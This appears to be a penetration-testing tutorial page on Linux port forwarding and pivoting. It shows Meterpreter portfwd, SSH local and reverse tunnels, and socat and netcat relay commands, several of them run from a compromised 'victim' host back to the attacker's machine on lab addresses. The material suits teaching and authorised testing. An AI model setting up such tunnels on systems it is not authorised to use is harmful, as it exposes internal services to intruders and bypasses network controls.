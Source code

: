 # 🐧 Linux

### Metasploit



First we open a shell channel with the objective to obtain the ip. Then thanks to one of the utilities of meterpreter called **portfwd** we perform the port forwarding.

```
meterpreter> portfwd add -l 8080 -p 80 -r 172.16.185.132
```

###

### SSH

With this method we will see that the port forwarding techniques offered by **SSH** are very efficient and secure.&#x20;

They may require a user’s credentials for access log to **SSH**.

Once we have the credentials we can perform two types of redirection, normal and reverse.

The first will consist of redirecting your port 80 to port 8080 local, logging in your **SSH**.

```
ssh -L 8080:localhost:80 -N -f test@172.16.185.132
```



The reverse will consist of connect from a shell of the target to an SSH that we will raise in our machine so in this case we do not need credentials. In this case the port forward occurs in a reverse manner.

```
ssh -R 8080:localhost:80 root@172.16.185.1 -N -f
```



### Socket

We will need to run on our machine a server with Socat that is listening and redirects to the port that we indicate at the second address

```
socat -v TCP4-LISTEN:10000 TCP4-LISTEN:8080
```

Later we will execute the connection in the victim where we indicate the port of the server of our machine and the service that we want to redirect in this case the 80.

```
socat TCP4:172.16.185.1:10000 TCP4:localhost:80
```



### Netcat

First on the victim’s machine we need to execute the command indicated that the first thing it does is create a pipe and then raise a listening port that we will use to connect from our machine, this has to be accessible to us and it is advisable to use one that does not require administrator permissions. The content of the created pipe will be dumped to this port.\
This command concatenated with a | makes the connection to the port of the service to forward in this case the 80 and dumps the answer in our pipe.

```
	
rm -f fifo; mkfifo fifo; nc -v -lk -p 8080 <fifo | nc -v localhost 80> fifo

```

Later on our machine we will use the same procedure to dump the connection to the port that we left to listen to the victim machine in a local port of ours and thus get access in localhost:8080

```
	
rm -f fifo; mkfifo fifo; nc -v -lk -p 8080 <fifo | nc 172.16.185.132 8080> fifo

```

